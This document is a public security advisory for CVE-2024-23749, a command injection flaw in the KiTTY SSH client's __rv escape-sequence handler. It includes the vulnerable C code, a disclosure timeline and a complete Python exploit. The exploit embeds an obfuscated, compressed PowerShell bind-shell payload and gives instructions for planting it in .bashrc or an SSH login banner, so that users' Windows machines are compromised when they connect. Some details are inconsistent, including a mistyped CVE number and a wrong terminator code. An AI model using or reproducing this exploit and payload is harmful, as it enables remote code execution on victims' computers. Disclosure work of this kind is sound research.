 ```yaml
---
title: Command Injection Vulnerability in KiTTY Get Remote File Through SCP Input (CVE-2024-23749)
---
```


## Contents:

1. [Summary](#summary)
2. [Analysis](#recon)
3. [Exploitation](#exploitation)
4. [Acknowledgments](#acknowledgments)
5. [Timeline](#timeline)
6. [Additional Advisory](#additional)

## Summary: <a name="summary"></a>

Austin A. DeFrancesco (DEFCESCO) discovered a command injection vulnerability in KiTTY ([kitty.c#L2597-L2602](https://github.com/cyd01/KiTTY/blob/75fa2abcd220c17249ff7252f8d5224137001f2d/kitty.c#L2597-L2602)). This vulnerability: 

- Is exploitable by any KiTTY user connecting to a host with the embedded exploit;
- The vulnerability was introduced in the original release in May 2021 (commit 4f79b1e) and affects all versions up to KiTTY ≤ 0.76.1.13 in their default configuration.

Austin developed an exploit for this vulnerability and obtained remote code execution in the context of the user running the application; by default, KiTTY can be operated in the user permission group of Standard Users. This exploit is stable and repeatable on all Microsoft Windows operating systems 11/10/8/7/XP. 

## Analysis: <a name="analysis"></a>

CVE-2024-23749 command injection vulnerability is in `kitty.c` precisely the `GetOneFile` function. The vulnerable lines of code are on lines `2369-2386`; in the latest revision `75fa2abcd220c172` ([kitty.c#L2369C4-L2391C2](https://github.com/cyd01/KiTTY/blob/75fa2abcd220c17249ff7252f8d5224137001f2d/kitty.c#L2369C4-L2391C2)).

If KiTTY encounters the ANSI escape sequence `\033]0;__rv` in a stream, it interprets it as an instruction to transfer files using Putty Secure Copy Protocol (PSCP):

- `\033`: This is the escape character (octal representation of ASCII ESC), which signals the beginning of an escape sequence.
- `]0;`: This sequence part indicates a metacommand will be defined.
- `__rv`: This is the vulnerable KiTTY command to transfer files using PSCP, which takes the input of a filename or file path.
- `\077`: This is the terminator sequence to indicate the end of the escape sequence.
- KiTTY’s `kitty.c` `__rv` command runs through specific handling based on the input parameters and configurations.

After the series of specific handling requests for other input parameters and configurations (at lines 2277-2368), KiTTY checks if the `filename` is larger than zero and checks if the `filename` is a directory or a single filename (at lines 2372). After these parameter and configuration checks, the filename is concatenated to the `buffer` (at line 2377). Finally, the constructed buffer is executed using the `system( buffer )` (at line 2386). 

CVE-2024-24749, where the `filename` variable is vulnerable to command injection, occurs due to insufficient input sanitization and validation, failure to escape special characters, and insecure system calls (at lines 2369-2390). This allows an attacker to add inputs inside the `filename` variable, leading to arbitrary code execution. 

---

```c
2369 if( filename[0]=='/' ) {
2370        strcat(buffer, filename ) ;
2371    } else {
2372        if( (directory!=NULL) && (strlen(directory)>0) && (strlen(filename)>0) ) {
2373            strcat( buffer, directory ) ; strcat( buffer, "/" ) ; strcat( buffer, filename ) ;
2374        } else if( (directory!=NULL) && (strlen(directory)>0) ) {
2375            strcat(buffer, directory ) ; strcat( buffer, "/*") ; 
2376        } else { 
2377            strcat(buffer, filename ) ; 
2378        }
2379    }
2380    strcat( buffer, "\" \"" ) ; strcat( buffer, dir ) ; strcat( buffer, "\"" ) ;
2381    //strcat( buffer, " > kitty.log 2>&1" ) ; //if( !system( buffer ) ) unlink( "kitty.log" ) ;
2382
2383    chdir( InitialDirectory ) ;
2384
2385    if( debug_flag ) { debug_logevent( "Get on file: %s", buffer) ; }
2386    if( system( buffer ) ) { MessageBox( NULL, buffer, "Transfer problem", MB_OK|MB_ICONERROR  ) ; }
2387
2388    //debug_log("%s\n",buffer);//MessageBox( NULL, buffer, "Info",MB_OK );

2390    memset(buffer,0,strlen(buffer));
2391 }
```

---

## Exploitation: <a name="exploitation"></a>

### __rv Command Injection:

From an attacker’s point of view, the exploit CVE-2024-23749 can be inserted into the `.bashrc` file for all users or in the SSH warning/message of the day (MOTD) banner. The exploit will trigger once the user logs in or is presented with the SSH warning/MOTD banner. 

KiTTY’s `__rv` function crashed (at line 2601) because adjacent memory was overwritten. 

To reproduce the exploit, follow these steps:

1. Start KiTTY and start an SSH session.
2. Update the payload handler and payload documented in the exploit’s comments.
3. Save the exploit on the connected SSH session.
4. Execute the exploit using Python: `python3 CVE-2024-23749.py`.

```python
#!/usr/bin/python

#----------------------------------------------------------------------------------------#
# Exploit: KiTTY ≤ 0.76.1.13 Command Injection Vulnerability in KiTTY                    #
#        Get Remote File Through SCP Input (CVE-2024-23749)                              #
# OS: Microsoft Windows 11/10/8/7/XP                                                     #
# Author: DEFCESCO (Austin A. DeFrancesco)                                               #
# Software:                                                                              #
# https://github.com/cyd01/KiTTY/releases/download/v0.76.1.13/kitty-bin-0.76.1.13.zip    #
#----------------------------------------------------------------------------------------#
# More details can be found on my blog: https://blog.DEFCESCO.io/Hell0+KiTTY             #
#----------------------------------------------------------------------------------------#
# msf6 payload(cmd/windows/powershell_bind_tcp) > to_handler                             #
# [*] Payload Handler Started as Job 1                                                   #
# msf6 payload(cmd/windows/powershell_bind_tcp) >                                        #
# [*] Started bind TCP handler against 192.168.100.28:4444                               #
# [*] Powershell session session 1 opened (192.168.100.119:36969 -> 192.168.100.28:4444) #
#----------------------------------------------------------------------------------------#

import os
import sys

#-----------------------------------------------------------------#
# msf6 payload(cmd/windows/powershell_bind_tcp) > generate -f raw #
#-----------------------------------------------------------------#

shellcode = b'powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]::create'
shellcode += b'((New-Object System.IO.StreamReader(New-Object System.IO.Compression.G'
shellcode += b'zipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBa'
shellcode += b'se64String(((\'H4sIAE7efGUCA5VVTW/b{2}BC{1}+1cMD{2}1GQiTCDXoKkGJdNV0Ey'
shellcode += b'LZGlTYHw0BoahxrQ5NekoptJP7vJSXqw3\'+\'GCbXWwJc7w8fHNG3JRCmYKKeBvNMktzh'
shellcode += b'kvUBgYPA3APsGG\'+\'wQV8wU3ydf4vMgPJzW6NX+gK7aAhNj+t8ptk8l3jJ1zQkptUYW4'
shellcode += b'jBeXa\'+\'QgRGld\'+\'hmTZTc7siLDDveG2lyB/vBoqG4lhtU{1}suygyo+oYquwvp{1'
shellcode += b'}mhlViPtZkMrVioo8PhzNNGdSvBj8JDeCS5pXo5HHVJKh1u\'+\'AFWMm85{2}gI/hVGUK'
shellcode += b'cUCwibZSDB/2A4L0Q+jKpgPa+aywttUKCy\'+\'k6fZzr6viFMtk+wBjSY3bH3tM2bv7XM'
shellcode += b'8kWhDlXHr\'+\'+pWrqC/RRS{1}vzBiujQWsyxHWVPZv0VX4iErjMeMWulfy15inE7/QcB'
shellcode += b'g76n6{1}Qa2ZNgrpyhGs8Yj1VlaNWWIdpbokNSNnj6GvQI+P1jxrwN6ghKxUhdmRrEkN/f'
shellcode += b'pxsLA+wjh8Cm4s+h4SqmF6M{2}cbrqTBFJUpFgWjBn{1}QXuTUmS2lnM8pe5hF0St0yLg0'
shellcode += b'S+dUN2ms{2}zECUXIeDw3X786GnkEfoFWm21lfuul8Z3A6mwXu35luRMjZyD7PfzyN{\'+'
shellcode += b'\'1}l5dFHkTDqcGt4agYDJ3jj4/H2fp1VXkFP/ocsLhrbWm3GiYu{2}bJlsg5qFIImw\'+'
shellcode += b'\'1Wj1Jbew7hFAIUj+fuS7jmPrVjtjRtgMnVujRd8E6kcr\'+\'1Txf3SQJhG8E/BlNRyY'
shellcode += b'SCVai1VJSGBsVvMJWlQaLEfMSd34k5443k5yK0tBobdxuJR3H2Qax\'+\'T3Ztk3Tt{2}2'
shellcode += b'fesc{2}ef3VJqezuDaQjpZfMuTlufvc21mfZbqkrKl5VyDQiHaI6XL6mi7Jzw4iSPS7LY+'
shellcode += b'tBqk6PlKPMoHTC63a6uttnq3KPu+pTbLgmMYBkXlunoT35DmYe2xGEYxBAfsI0gEwuhI0k'
shellcode += b'unH+Y3Vsu3LgXfmC6FVBpfes07FNte1FHpofnzodpd\'+\'IyoERfSimrYbXTGP{1}g1Jc'
shellcode += b'7\'+\'jV4Gcf/nwHz/C1NEmNCt48B1BnUAnSAJ/CySSDE/tf6X8tWeXhiEyoWbroBzjpQL'
shellcode += b'a{2}SIBKSTUdzQ4W67Gu4oRxpCqMXmNw0f+wrbYdHBv4l/zbwfyvY/uGPfJrM+czL/Wyve'
shellcode += b'/8weMP85RLjX4/VTs2t1DfMN3VlBm5bu4j/2ud2V7lbe3cFfoTVXnPBo0IAAA{0}\')-f'
shellcode += b'\'=\',\'9\',\'O\')))),[System.IO.Compression.CompressionMode]::Decompr'
shellcode += b'ess))).ReadToEnd()))\"'

escape_sequence = b'\033]0;__rv:'
escape_sequence += b'" & '
escape_sequence += shellcode
escape_sequence += b' #\007' 

stdout = os.fdopen(sys.stdout.fileno(), 'wb') 
stdout.write(escape_sequence)
stdout.flush()
```

## Acknowledgments: <a name="acknowledgments"></a>

Austin thanks the MITRE CVE Assignment Team for their assistance with the CVE service requests.

## Timeline: <a name="timeline"></a>

2024-01-08: This advisory contains one vulnerability and one additional advisory totaling three vulnerabilities sent to KiTTY maintainer Cyril Dupont; no reply from Cyril.

2024-01-28: Follow-up email with assigned CVE numbers and full writeups sent to Cyril Dupont; no reply.

2024-02-07: Public Advisory & Exploits Release Date (6:00 PM UCT).

## Additional Advisory: <a name="additional"></a>

Buffer Overflow Vulnerabilities in KiTTY Start Duplicated Session Hostname (CVE-2024-25003) & Username (CVE-2024-25004) Variables: [https://blog.defcesco.io/CVE-2024-25003-CVE-2024-25004](https://blog.defcesco.io/CVE-2024-25003-CVE-2024-25004)